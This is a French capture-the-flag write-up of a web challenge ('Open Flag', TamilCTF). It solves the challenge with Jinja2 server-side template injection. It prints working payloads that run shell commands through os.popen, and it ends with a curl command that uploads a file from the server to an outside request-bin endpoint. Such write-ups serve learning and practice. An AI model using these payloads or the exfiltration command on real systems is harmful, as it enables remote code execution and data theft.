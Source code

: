 ```yaml
---
layout: post
title:  "[WIP] Open Flag"
date:   2021-09-29
categories: tamilctf
---
```



# Introduction

Ce challenge fait partie des challenges web.

# Résolution

Lorsque j'ouvre la page pour débuter le challenge, une page de login apparaît.

![1](https://user-images.githubusercontent.com/16634117/135445836-71bcee4f-83c2-4b99-9e5b-8a7346de9a6d.png)

Je tente d'abord un login aléatoire toto/toto afin de voir ce qu'il se passe, je tombe directement sur une nouvelle page m'indiquant la présence du flag dans l'image flag.jpg. 

![2](https://user-images.githubusercontent.com/16634117/135445985-2c9546a9-d679-4bc4-907c-4f0f226c9380.png)

Tout naturellement je tente d'accèder à cette image.

![1-1](https://user-images.githubusercontent.com/16634117/135446040-999b482c-fcb2-4f09-b21e-aed6fe260d04.png)

Evidemment rien...

Je décide donc de jeter un oeil au html de la page précédente.

![3](https://user-images.githubusercontent.com/16634117/135446161-86e363f8-f8a7-418f-89ab-3dd2cb35b762.png)

En commentaire se trouve "Hello" suivi du nom utilisé pour le login. Je tente donc de transformer cela pour pouvoir insérer des balises html en bypassant le commentaire. 

![4](https://user-images.githubusercontent.com/16634117/135446343-6e6e8694-8b95-4c6b-a527-e0db4e475b1f.png)

Et le résultat :

![5](https://user-images.githubusercontent.com/16634117/135446394-f641c8f6-06a9-45cd-b23b-7f35939daab6.png)

Je peux donc injecter du code dans la page... Mais aucune notion d'admin qui doit passer pour vérifier quoi que ce soit, j'écarte donc rapidement la possibilité d'un vol de session.

Je jète un petit coup d'oeil aux requetes et je vois un indice intéressant, le serveur est en python.

![6](https://user-images.githubusercontent.com/16634117/135446526-9d564211-ff3d-4673-b42b-97ddca26be8d.png)

Je me suis souvenu d'un challenge root-me visant à injecter des templates pour executer du code, je me dis que cette piste est intéressante.

Pour vérifier mon hypothèse il me suffit d'injecter un template tout simple comme  {% raw %} `{{7 * 7}}` {% endraw %}; si le serveur effectue la multiplication, alors la faille est exploitable.

![7](https://user-images.githubusercontent.com/16634117/135446757-0a62b6c5-39e7-48fc-8411-70cfe397e1a9.png)

![8](https://user-images.githubusercontent.com/16634117/135446779-5f18bf36-d53b-462b-be69-efdd52dfc581.png)

Le code est exécuté ! 

A partir de la, un petit détour sur le [repo github payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) va me donner une liste d'injections qui me permettra d'arriver à mes fins.

je tente d'abord de trouver l'uid côté serveur, la charge est la suivante :

{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`
{% endraw %}




Et la réponse :

![9](https://user-images.githubusercontent.com/16634117/135447259-653f1ee8-ce80-4d18-af7a-2056153b9f01.png)

Interessant... Voyonsvoir si je peux lister les fichiers à la racine du serveur web :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}`
{% endraw %}

Et la réponse :

![10](https://user-images.githubusercontent.com/16634117/135447364-34f4895c-3e2b-4d8f-ac02-f1e9a1c9ef17.png)

J'essaye donc de récuperer l'image en base 64 
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('base64 flag.jpg').read() }}`
{% endraw %}
La réponse est vide... Il y a effectivement un fichier "flag.jpg" mais les droits m'empechent d'y accéder.

Je copie donc l'image dans le répertoire `/tmp` pour travailler proprement.
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cp flag.jpg /tmp/flag.jpg').read() }}`
{% endraw %}
Je fais maintenant un endpoint de récupération de requêtes grâce au site [requestbin](https://requestbin.com/?gclid=EAIaIQobChMIw426kM2m8wIVWMvICh31gwmLEAAYASAAEgIPHfD_BwE)

Et je tente d'envoyer une requête depuis le serveur, afin de vérifier que je peux sortir en http :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl https://en0siis5jevxc.x.pipedream.net').read() }}`
{% endraw %}
La réponse sur le site :

![12](https://user-images.githubusercontent.com/16634117/135448042-d73f89f5-a574-4d81-b3a9-27afb02097c1.png)

Et sur mon endpoint :

![13](https://user-images.githubusercontent.com/16634117/135448075-7e8221cf-0818-417f-b38b-f0048a70b010.png)

J'ai donc tous les élements pour terminer le challenge :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl -F  "image=@/tmp/flag.jpg" https://en0siis5jevxc.x.pipedream.net').read() }}`
{% endraw %}
Qui me donne :

![14](https://user-images.githubusercontent.com/16634117/135448201-56f99f3f-77c5-407f-8023-d8787beb47a6.png)

je récupère cette donnée brute et la retransorme en image :

![file](https://user-images.githubusercontent.com/16634117/135448266-7c4f2636-15cf-4c61-8cd1-b801bca70199.png)

Bingo !





